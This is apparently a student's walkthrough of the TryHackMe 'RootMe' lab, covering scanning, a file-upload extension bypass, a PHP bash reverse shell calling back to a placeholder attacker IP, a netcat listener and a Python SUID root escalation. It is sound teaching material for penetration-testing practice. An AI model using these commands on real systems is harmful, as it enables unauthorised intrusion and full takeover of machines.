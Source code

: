 
# RootMe CTF Walkthrough – TryHackMe

## 🕵️ About the Room

The **RootMe CTF** on TryHackMe is an engaging challenge designed to teach beginners and intermediate users how to exploit common vulnerabilities in web applications and escalate privileges on Linux systems. It focuses on enumeration, file upload vulnerabilities, and privilege escalation techniques that mirror real-world penetration testing scenarios.

Throughout this room, I learned how to:
✔ Perform network scanning and service enumeration  
✔ Identify vulnerable web directories through directory busting  
✔ Exploit file upload restrictions by bypassing file extension filters  
✔ Use reverse shells to gain remote access  
✔ Enumerate files and permissions to find privilege escalation paths  
✔ Exploit SUID binaries using tools like gtfobins for privilege escalation  

This walkthrough documents the step-by-step process I followed to compromise the machine and retrieve both user and root flags.

---

## ✅ Steps Taken to Solve the RootMe CTF

### 1️⃣ Connecting to TryHackMe Network

The first step was to establish a connection with the TryHackMe environment using the OpenVPN configuration file:

\`\`\`bash
$ sudo openvpn Downloads/Ynos.ovpn
\`\`\`

This ensured secure access to the lab network.

---

### 2️⃣ Verifying Connectivity

Once connected, I confirmed that I could communicate with the target machine by sending ICMP packets using the ping command:

\`\`\`bash
$ ping (Ip of the machine)
\`\`\`

This verified that the target system was online and reachable.

---

### 3️⃣ Running Nmap Scan for Enumeration

I then began scanning the target machine to identify open ports and services using this command:

\`\`\`bash
$ nmap -sV -O -T5 -p- 10.10.109.68 -oN Nmap.results
\`\`\`

This scan identified:
- All ports (\`-p-\`)
- Service versions (\`-sV\`)
- Operating system details (\`-O\`)
- Aggressive timing template for speed (\`-T5\`)
- Output written to \`Nmap.results\`

---

### 4️⃣ Starting Directory Busting (Dirbusting)

While the Nmap scan was running, I began directory busting on the web server using a tool like `dirb` or `gobuster`. This revealed several directories and potential entry points:

```text
/css/  -> Contains upload functionality
```

This early enumeration set the stage for further exploitation.

---

### 5️⃣ Reviewing Open Ports

The Nmap scan results showed that **two ports were open**:
- SSH service for remote login
- Apache web server serving content

These services provided the main attack vectors.

---

### 6️⃣ Finding Upload Functionality in the Web Directory

The directory busting process uncovered that the `/css/` directory contained a file called `panel`, which could be used for uploading files to the server:

```text
/css/panel
```

This was a significant discovery because file uploads are often misconfigured and lead to remote code execution vulnerabilities.

---

### 7️⃣ Uploading a Reverse Shell

Knowing that the Apache server was running PHP, I used a PHP reverse shell from Pentest Monkey's repository to exploit the upload feature. This shell allows the attacker to connect back to the target machine:

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1'"); ?>
```

However, I discovered that uploading `.php` files was blocked by the server.

---

### 8️⃣ Bypassing File Upload Restrictions

To bypass the restriction, I renamed the file extension from `.php` to `.php5`, which is often parsed by PHP servers. This allowed me to upload the shell script successfully without being blocked by the file extension filter.

---

### 9️⃣ Setting Up a Listener for the Reverse Shell

On my attacking machine, I set up a netcat listener to catch the incoming connection once the uploaded file was triggered:

\`\`\`bash
$ nc -nvlp 4444
\`\`\`

After refreshing the web page that triggered the shell, I gained access to the target system.

---

### 🔟 Finding the User Flag

With initial access, the next goal was to locate the `user.txt` flag file, typically found in the home directory of the user with limited permissions.

---

### 1️⃣1️⃣ Enumerating for Privilege Escalation Paths

To prepare for privilege escalation, I searched for files with SUID permissions that could be exploited:

\`\`\`bash
$ find / -perm -4000 -type f 2>/dev/null
\`\`\`

This identified binaries that could be misused to escalate privileges.

---

### 1️⃣2️⃣ Exploiting Python for Privilege Escalation

The enumeration revealed that `/usr/bin/python` had elevated permissions. Using this information, I referred to **gtfobins**, a curated list of binaries that can be exploited for privilege escalation.

The exploit command was:

\`\`\`bash
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
\`\`\`

Running this command gave me an elevated shell with administrative privileges.

---

### 1️⃣3️⃣ Confirming Admin Access

After executing the exploit, I verified that I had root privileges by checking the current user or accessing restricted directories.

---

### 1️⃣4️⃣ Capturing the Root Flag

Finally, with full administrative access, I navigated to the root directory and retrieved the `root.txt` file:

```text
/root/root.txt
```

This marked the completion of the challenge.

---

## ✅ What I Learned

- How to connect securely to a lab environment using OpenVPN  
- How to verify connectivity using ping  
- How to scan a system using Nmap for open ports and services  
- How to perform directory busting to find hidden paths  
- How to exploit file upload functionality in web servers  
- How to bypass file extension restrictions to upload malicious scripts  
- How to use netcat as a listener for reverse shells  
- How to enumerate for SUID binaries to find privilege escalation paths  
- How to exploit Python’s permissions for administrative access using gtfobins  
- How to retrieve sensitive information like user and root flags  

---

## 📂 Conclusion

The **RootMe CTF** was a highly instructive challenge that covered multiple stages of exploitation, from enumeration to privilege escalation. It reinforced key penetration testing techniques while demonstrating how misconfigurations and improper input validation can lead to full system compromise.

This walkthrough reflects my hands-on experience and aims to help others understand how attackers approach web application vulnerabilities and system exploitation.

Happy hacking! 🚀🔐

